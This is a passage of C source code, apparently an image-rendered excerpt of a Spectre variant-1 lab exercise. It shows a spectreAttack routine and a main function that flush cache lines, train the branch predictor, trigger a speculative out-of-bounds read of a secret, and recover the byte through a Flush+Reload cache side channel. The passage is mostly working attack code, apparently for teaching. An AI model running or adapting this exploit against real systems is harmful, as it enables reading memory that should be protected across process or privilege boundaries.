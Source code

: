 ```c
{
  int i;
  uint8_t s;
  volatile int z;

  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }

  // Train the CPU to take the true branch inside victim().
  for (i = 0; i < 10; i++) {
    restrictedAccess(i);  
  }

  // Flush bound_upper, bound_lower, and array[] from the cache.
  _mm_clflush(&bound_upper);
  _mm_clflush(&bound_lower); 
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  for (z = 0; z < 100; z++)  {  }
  //
  // Ask victim() to return the secret in out-of-order execution.
  s = restrictedAccess(index_beyond);
  array[s*4096 + DELTA] += 88;
}

int main() {
  int i;
  uint8_t s;
  size_t index_beyond = (size_t)(secret - (char*)buffer);

  flushSideChannel();
  for(i=0;i<256; i++) scores[i]=0; 

  for (i = 0; i < 1000; i++) {
    printf("*****\n");  // This seemly "useless" line is necessary for the attack to succeed
    spectreAttack(index_beyond);
    usleep(10);
    reloadSideChannelImproved();
  }

  int max = 0;
  for (i = 0; i < 256; i++){
    if(scores[max] < scores[i]) max = i;
  }

  printf("Reading secret value at index %ld\n", index_beyond);
  printf("The secret value is %d(%c)\n", max, max);
  printf("The number of hits is %d\n", scores[max]);
  return (0); 
}
```


